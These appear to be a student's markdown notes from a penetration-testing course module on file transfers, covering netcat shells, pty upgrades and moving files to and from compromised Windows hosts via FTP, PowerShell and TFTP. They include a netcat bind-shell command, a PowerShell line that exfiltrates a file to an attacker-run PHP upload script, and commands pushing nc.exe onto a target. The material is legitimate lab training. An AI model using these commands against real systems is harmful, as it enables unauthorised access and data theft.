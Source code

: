 # Content

- [Content](#content)
  - [Considerations and Preparations](#considerations-and-preparations)
    - [Dangers of Transferring Attack Tools](#dangers-of-transferring-attack-tools)
    - [Installing Pure-FTPd](#installing-pure-ftpd)
    - [The Non-Interactive Shell](#the-non-interactive-shell)
      - [Upgrading a Non-Interactive Shell](#upgrading-a-non-interactive-shell)
  - [Transferring Files with Windows Hosts](#transferring-files-with-windows-hosts)
    - [Non-Interactive FTP Download](#non-interactive-ftp-download)
    - [Windows Uploads Using Windows Scripting Languages](#windows-uploads-using-windows-scripting-languages)
    - [Uploading Files with TFTP](#uploading-files-with-tftp)

  
## Considerations and Preparations

- The conversion of attack tools and utilities to our target and the dangers associated with this. Dangers include attack tool abuse by malicious parties and anti-virus software that can detect and isolate our attack tools. It is important to document the upload and removal of tools upon completion of the assessment. We also talk about using native tools on a compromised system and uploading additional tools only when necessary and the risk of detection is minimal.

### Dangers of Transferring Attack Tools

- In some cases, we may need to transfer attack tools and utilities to our target.However, transferring these tools can be dangerous for several reasons.
- First, our post-exploitation attack tools could be abused by malicious parties, which puts the client’s resources at risk. It is extremely important to document uploads and remove them after the assessment is completed.
- Second, antivirus software, which scans endpoint filesystems in search of pre-defined file signatures, becomes a huge frustration for us during this phase.
- This software, which is ubiquitous in most corporate environments, will detect our attack tools, quarantine them (rendering them useless), and alert a system administrator.

### Installing Pure-FTPd

- In order to accommodate the exercises in this module, let’s quickly install the Pure-FTPd server on our Kali attack machine.
  ![Picture](../16.%20File%20Transfers/Image/1.png)
- Before any clients can connect to our FTP server, we need to create a new user for Pure-FTPd. 
  ![Picture](../16.%20File%20Transfers/Image/2.png)
- We will make the script executable, then run it and enter “lab” as the password for the offsec user when prompted and restart the ftp server.
  ![Picture](../16.%20File%20Transfers/Image/3.png)
  ![Picture](../16.%20File%20Transfers/Image/4.png)

### The Non-Interactive Shell

- Most Netcat-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or su and sudo tend to work poorly, if at all. 
- Non-interactive shells also lack useful features like tab completion and job control. 
- By contrast, consider a typical FTP login session from our Debian lab client to our Kali system.
  ![Picture](../16.%20File%20Transfers/Image/5.png)
- In this session, we enter a username and password, and the process is exited only after we enter the bye command. This is an interactive program; it requires user intervention to complete.
- Although the problem may be obvious at this point, let’s attempt an FTP session through a non-interactive shell, in this case, Netcat.
- To begin, let’s assume we  have obtained access to a Netcat bind shell. We’ll launch Netcat on our Kali client listening on port 4444.
  ```bashh
  nc -lvnp 4444 -e /bin/bash
  ```
  ![Picture](../16.%20File%20Transfers/Image/6.png)
- From our Kali system, we will connect to the listening shell.
  ```bash
  nc -vn 192.168.50.163 4444
  ```
  ![Picture](../16.%20File%20Transfers/Image/7.png)

#### Upgrading a Non-Interactive Shell

- Now that we understand some of the limitations of non-interactive shells, let’s examine how we can “upgrade” our shell to be far more useful. 
- The Python interpreter, frequently installed on Linux systems, comes with a standard module named pty that allows for creation of pseudo-terminals. 
- We will reconnect to our listening Netcat shell, and spawn our pty shell.
  ```bash
  nc -vn 192.168.50.163 4444
  python -c 'import pty; pty.spawn("/bin/bash")'
  ``` 
  ![Picture](../16.%20File%20Transfers/Image/8.png)
- Immediately after running our Python command, we are greeted with a familiar Bash prompt. 
- Let’s try connecting to our local FTP server again, this time through the pty shell and see how it behaves.
  ![Picture](../16.%20File%20Transfers/Image/9.png)
- This time, our interactive connection to the FTP server was successful and when we quit, we were returned to our upgraded Bash prompt.

## Transferring Files with Windows Hosts

- In Unix-like environments, we will often find tools such as Netcat, curl, or wget preinstalled with the operating system, which make downloading files from a remote machine relatively simple. 
- However, on Windows machines the process is usually not as straightforward. In this section, we will explore file transfer options on Windows-based machines.

### Non-Interactive FTP Download

- Windows operating systems ship with a default FTP client that can be used for file transfers. 
- As we’ve seen, the FTP client is an interactive program that requires input to complete so we need a creative solution in order to use FTP for file transfers.
  ![Picture](../16.%20File%20Transfers/Image/10.png)
- The ftp -s option accepts a text-based command list that effectively makes the client non-interactive. On our attacking machine, we will set up an FTP server, and we will initiate a download request for the Netcat binary from the compromised Windows host.
- First, we will place a copy of nc.exe in our /ftphome director.
  ```bash
  sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
  ls /ftphome/
  ```
  ![Picture](../16.%20File%20Transfers/Image/11.png)
- We have already installed and configured Pure-FTPd on our Kali machine, but we will restart it to make sure the service is available.
  ```bash
  sudo systemctl restart pure-ftpd
  ```
  ![Picture](../16.%20File%20Transfers/Image/12.png)
- Next, we will build a text file of FTP commands we wish to execute, using the echo command and redirecting the output to a file named ftp.txt.
  ```bash
  C:\Users\Thai_SE161457_Win10>echo open 192.168.50.156 21> ftp.txt
  C:\Users\Thai_SE161457_Win10>echo USER offsec>> ftp.txt
  C:\Users\Thai_SE161457_Win10>echo 191011>> ftp.txt
  C:\Users\Thai_SE161457_Win10>echo bin >> ftp.txt
  C:\Users\Thai_SE161457_Win10>echo GET nc.exe >> ftp.txt
  C:\Users\Thai_SE161457_Win10>echo bye >> ftp.txt
  ```
  ![Picture](../16.%20File%20Transfers/Image/13.png)
- We are now ready to initiate the FTP session using the command list.
  ```bash
  ftp -v -n -s:ftp.txt
  ```
  - -v to suppress any returned output.
  - -n to suppresses automatic login.
  - -s to indicate the name of our command file
  ![Picture](../16.%20File%20Transfers/Image/14.png)
- When the ftp command runs, our download should have executed, and a working copy of nc.exe should appear in our current directory.
  ![Picture](../16.%20File%20Transfers/Image/15.png)

### Windows Uploads Using Windows Scripting Languages

- In certain scenarios, we may need to exfiltrate data from a target network using a Windows client. 
- This can be complex since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.
- First, in Linux, we will create a file name upload.php in directory ``` /var/www/html ```
  ```php
  <?php
  $uploaddir = '/var/www/uploads/';
  $uploadfile = $uploaddir . $_FILES['file']['name'];
  move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
  ?>
  ```
  ![Picture](../16.%20File%20Transfers/Image/16.png)
- Then we create the uploads folder.
  ![Picture](../16.%20File%20Transfers/Image/17.png)
- The PHP code  will process an incoming file upload request and save the transferred 
data to the ``` /var/www/uploads/ ``` directory.
- In windows, We use the ``` UploadFile ``` method from the ``` System.Net.WebClient ``` class to upload the document we want to exfiltrate, in this case, a file named hello.txt.
  ```bash
  powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.50.156/upload.php', 'hello.txt')
  ```
  ![Picture](../16.%20File%20Transfers/Image/18.png)
- After execution of the powershell command, we can verify the successful transfer of the file by checking the contents of the uploads directory on our Kali machine.
  ![Picture](../16.%20File%20Transfers/Image/19.png)

### Uploading Files with TFTP

- TFTP (Trivial File Transfer Protocol) file transfer protocol for uploading files from older Windows operating systems such as Windows XP and Windows Server 2003. The passage indicates that PowerShell is not installed by default on system versions this old operating system, but the VBScript and FTP client are still available and working. However, in this case, the author would like to recommend another file transfer method, TFTP.
- TFTP is a file transfer protocol based on UDP and is often restricted by enterprise egress (firewall) firewall rules. TFTP is used in penetration testing to transfer files from older Windows operating systems to Windows XP and 2003. However, TFTP is not installed by default on Windows 7, Windows 2008 and later versions newer.
- To use TFTP, we first need to install and configure a TFTP server on Kali Linux and create a directory to store and serve files. Then we update the ownership of the directory to be able to write files to it. Run atftpd as a daemon on UDP port 69 and specify to use the newly created ``` /tftp ``` directory.
  ```bash
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ```
  ![Picture](../16.%20File%20Transfers/Image/20.png)
- On the Windows system, we will run the tftp client with -i to specify a binary image transfer, the IP address of our Kali system, the put command to initiate an upload, and finally the filename of the file to upload.
  ```bash
  tftp -i 192.168.50.156 PUT test.txt
  ```
  ![Picture](../16.%20File%20Transfers/Image/21.png)
- Finally, we can verify the successful transfer of the file by checking the contents of the ``` /tftp ``` directory on our Kali machine.
  ![Picture](../16.%20File%20Transfers/Image/22.png)



